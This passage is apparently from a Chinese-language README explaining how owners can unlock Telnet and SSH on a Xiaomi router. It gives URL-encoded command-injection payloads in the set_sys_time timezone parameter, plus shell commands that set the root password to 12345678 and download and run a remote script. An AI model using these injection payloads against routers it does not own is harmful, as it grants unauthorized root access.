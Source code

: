 - ② 将复制的 stok 值替换如下网址的 `{stok}` 并访问：

  ```text
  http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
  ```

  网页内容显示 `{"code":0}` 表示成功开启调试模式
- ③ 继续将复制的 stok 值替换如下网址的 `{stok}` 并访问：

  ```text
  http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
  ```

  网页内容显示 `{"code":0}`，此时路由器会重启

### 2. 永久开启 Telnet
- ① 重启完成后进入路由器管理页面并登录，再次复制 stok 值
- ② 将复制的 stok 值替换如下网址的 `{stok}` 并访问：

  ```text
  http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
  ```

  网页内容显示 `{"code":0}` 表示成功设置 Bdata 永久开启 Telnet
- ③ 继续将复制的 stok 值替换如下网址的 `{stok}` 并访问：

  ```text
  http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
  ```

  网页内容显示 `{"code":0}`，此时路由器会再次重启

**开启 Telnet 成功！**

### 3. 永久开启并固化 SSH
- ① 连接 Telnet，执行如下命令：
  - 注：第一行命令是将 Telnet 和 SSH 登录密码设置为 `12345678`，可自定义

  ```shell
  echo -e '12345678\n12345678' | passwd root
  nvram set telnet_en=1
  nvram set ssh_en=1
  nvram set uart_en=1
  nvram set boot_wait=on
  nvram commit
  /etc/init.d/dropbear enable & /etc/init.d/dropbear start
  mkdir -p /data/auto_ssh
  curl -o /data/auto_ssh/auto_ssh.sh -L https://cdn.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh
  chmod +x /data/auto_ssh/auto_ssh.sh
  /data/auto_ssh/auto_ssh.sh install
  uci set system.@system[0].timezone='CST-8'
  uci set system.@system[0].webtimezone='CST-8'
  uci set system.@system[0].timezoneindex='2.84'
  uci commit
  mtd erase crash
  reboot
  ```
